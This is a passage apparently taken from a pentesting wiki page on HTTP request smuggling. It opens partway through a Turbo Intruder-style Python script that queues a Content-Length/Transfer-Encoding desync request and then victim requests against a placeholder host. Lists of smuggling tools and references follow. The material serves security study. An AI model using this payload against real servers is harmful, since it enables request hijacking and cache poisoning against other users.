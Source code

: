 ```python

46
POST /nothing HTTP/1.1
Host: xxx.com
Content-Length: 15

kk
0

'''
    engine.queue(attack)

    victim = '''GET / HTTP/1.1
Host: xxx.com

'''
    for i in range(14):
        engine.queue(victim)
        time.sleep(0.05)


def handleResponse(req, interesting):
    table.add(req)
```

## More info

![](../.gitbook/assets/eki5edauuaaipik.jpg)

[Image from here.](https://twitter.com/SpiderSec/status/1200413390339887104?ref_src=twsrc%5Etfw%7Ctwcamp%5Etweetembed%7Ctwterm%5E1200413390339887104&ref_url=https%3A%2F%2Ftwitter.com%2FSpiderSec%2Fstatus%2F1200413390339887104)

## Tools

* [https://github.com/anshumanpattnaik/http-request-smuggling](https://github.com/anshumanpattnaik/http-request-smuggling)
* [https://github.com/PortSwigger/http-request-smuggler](https://github.com/PortSwigger/http-request-smuggler)
* [https://github.com/gwen001/pentest-tools/blob/master/smuggler.py](https://github.com/gwen001/pentest-tools/blob/master/smuggler.py)
* [https://github.com/defparam/smuggler](https://github.com/defparam/smuggler)

## References

* [https://portswigger.net/web-security/request-smuggling](https://portswigger.net/web-security/request-smuggling)
* [https://portswigger.net/web-security/request-smuggling/finding](https://portswigger.net/web-security/request-smuggling/finding)
* [https://portswigger.net/web-security/request-smuggling/exploiting](https://portswigger.net/web-security/request-smuggling/exploiting)
* [https://medium.com/cyberverse/http-request-smuggling-in-plain-english-7080e48df8b4](https://medium.com/cyberverse/http-request-smuggling-in-plain-english-7080e48df8b4)
* [https://github.com/haroonawanofficial/HTTP-Desync-Attack/](https://github.com/haroonawanofficial/HTTP-Desync-Attack/)
* [https://memn0ps.github.io/2019/11/02/HTTP-Request-Smuggling-CL-TE.html](https://memn0ps.github.io/2019/11/02/HTTP-Request-Smuggling-CL-TE.html)


